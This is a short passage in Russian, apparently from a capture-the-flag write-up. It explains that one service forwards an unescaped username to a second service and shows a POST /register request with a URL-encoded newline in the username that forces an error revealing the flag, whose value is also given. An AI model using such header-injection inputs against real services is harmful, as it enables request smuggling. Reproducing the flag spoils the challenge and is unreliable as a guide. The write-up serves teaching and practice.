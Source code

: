 Видно, что первый сервис формирует HTTP запрос ко второму самостоятельно, не экранируя при этом каким-либо образом параметр username. То есть, мы можем сформировать некорректный запрос, получив тем самым сообщение об ошибке, в котором будет содержаться флаг.

Пример запроса: 
```http
POST /register
username=%0A&password=qq
```


Флаг: `NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}`